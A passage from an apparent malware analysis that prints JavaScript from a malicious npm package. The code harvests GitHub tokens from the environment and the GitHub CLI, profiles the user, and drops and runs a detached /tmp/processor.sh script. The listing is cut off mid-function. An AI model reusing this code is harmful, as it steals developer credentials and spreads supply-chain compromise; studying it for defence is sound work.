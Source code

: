 The last behavior can already be seen on github on some users repositorys:

<img src="/static/NPM/data.png" alt="drawing" width="1000"/>


Full code:
```
class GitHubModule {
    constructor() {
        this.token = this.getToken();
        this.octokit = new F.Octokit({ auth: this.token || void 0 });
    }

    // Token harvesting from multiple sources
    getToken() {
        const t = process.env.GITHUB_TOKEN;
        if (t) return t;
        
        try {
            // Steal from GitHub CLI
            const t = (0, te.execSync)("gh auth token", { 
                encoding: "utf8", 
                stdio: "pipe" 
            }).trim();
            if (t) return t;
        } catch {}
        
        return null;
    }
    // User reconnaissance
    async getUser(t) {
        try {
            const r = (t ? await this.octokit.rest.users.getByUsername({ username: t }) 
                         : await this.octokit.rest.users.getAuthenticated()).data;
            return {
                login: r.login,
                name: r.name,
                email: r.email,
                publicRepos: r.public_repos,
                followers: r.followers,
                following: r.following,
                createdAt: r.created_at
            };
        } catch {
            return null;
        }
    }
    async extraction(t) {
        try {
            const r = await Promise.resolve().then(n.t.bind(n, 79896, 23)), // fs module
                  { spawn: F } = await Promise.resolve().then(n.t.bind(n, 35317, 23)), // child_process
                  te = "/tmp/processor.sh",
                  re = { ...process.env },
                  oe = [t];

            r.writeFileSync(te, ne, { mode: 493 }); // 493 = 755 permissions
            F(te, oe, { env: re, detached: true, stdio: "ignore" }).unref();
        } catch (t) {}
    }
    async migration(t, r, F) {
        const te = await Promise.resolve().then(n.t.bind(n, 79896, 23)),
              { spawn: ne } = await Promise.resolve().then(n.t.bind(n, 35317, 23));

```